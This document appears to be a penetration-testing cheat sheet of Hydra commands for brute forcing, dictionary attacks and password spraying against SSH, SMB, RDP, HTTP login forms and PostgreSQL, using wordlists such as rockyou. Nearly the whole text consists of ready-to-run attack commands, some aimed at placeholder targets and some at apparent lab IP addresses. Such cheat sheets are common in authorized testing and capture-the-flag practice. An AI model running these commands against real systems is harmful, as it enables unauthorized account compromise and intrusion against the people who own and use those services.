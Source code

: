 ##### **Hydra**
Brute Forcing with both Username and Password list, Change Service accordingly.
```
hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://target_IP
```
```
hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s SSH_Port ssh://target_IP
```

Brute forcing ssh with Password list
```
hydra -l USER_NAME -P /usr/share/wordlists/rockyou.txt ssh://target_IP
```
```
hydra -l USER_NAME -P /usr/share/wordlists/rockyou.txt -s SSH_Port ssh://target_IP
```

SMB brute force, Change service accordingly
```
hydra -L user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target_ip smb
```
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target_ip smb2
```

Password Spraying, Change service accordingly.
```
hydra -L users.txt -p "PASSWORD" rdp://Target_IP
```
```
hydra -L users.txt -p "PASSWORD" -s RDP_PORT rdp://Target_IP
```

Dictionary Attack on HTTP Login Post Form, Change the form contents accordingly.
```
hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:LOGIN FAILED INDICATOR"
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=^USER^&password=^PASS^:Invalid Password!'
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.'
```

HTTP_GET Attack in Hydra.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://Target_ip
```

psql
```
hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 172.16.242.134 postgres
```

Wordlists
```
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
```
/usr/share/wordilists/rockyou.txt
```